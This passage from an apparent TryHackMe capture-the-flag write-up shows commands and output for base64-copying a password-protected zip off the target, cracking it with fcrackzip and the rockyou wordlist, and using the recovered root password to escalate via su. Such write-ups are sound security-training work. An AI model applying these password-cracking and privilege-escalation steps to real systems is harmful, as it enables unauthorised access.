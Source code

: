 -- -

It failed to unzip because it requires password and we do not have munojr's password.

Lets crack it but we have to send it first to **our machine(your computer)**.

I tried to send it with python3 server it failed then i decided to use base64 method with command.

-- -

```
base64 -w0 s3cr3t.zip
```

![](https://i.imgur.com/gKmBvqL.png)

Then copy it to your machine and save it with .zip extension mine was **s3cr3t.zip**

## Bruteforcing password

-- -

```
┌──(gemstone㉿kali)-[~/C7F5/thm/chain]
└─$ fcrackzip -u -v -D -p /usr/share/wordlists/rockyou.txt s3cret.zip
'munojr/' is not encrypted, skipping
found file 'munojr/rootpass.txt', (size cp/uc 47/ 35, flags 9, chk 833c)
checking pw 055470056
PASSWORD FOUND!!!!: pw == *******
```
-- -

unzip the s3cret.txt

```
┌──(gemstone㉿kali)-[~/C7F5/thm/chain]
└─$ unzip s3cret.zip
Archive: s3cret.zip
creating: munojr/
[s3cret.zip] munojr/rootpass.txt password:
extracting: munojr/rootpass.txt
┌──(gemstone㉿kali)-[~/C7F5/thm/chain]
└─$ cd munojr
┌──(gemstone㉿kali)-[~/C7F5/thm/chain/munojr]
└─$ ls
rootpass.txt
┌──(gemstone㉿kali)-[~/C7F5/thm/chain/munojr]
└─$ cat rootpass.txt
root:***********
```
-- -
now we have root password then we can be root by just `su root` and password will be the one we get from rootpass.txt.

```
munojr@owaspQuiz:~$ su root
Password:
root@owaspQuiz:/home/munojr# cd /root
root@owaspQuiz:~# ls
root.txt
root@owaspQuiz:~# cat root.txt
THM{REDACTED}
root@owaspQuiz:~#
```

**The End**.

Thanks for reading, see you next time.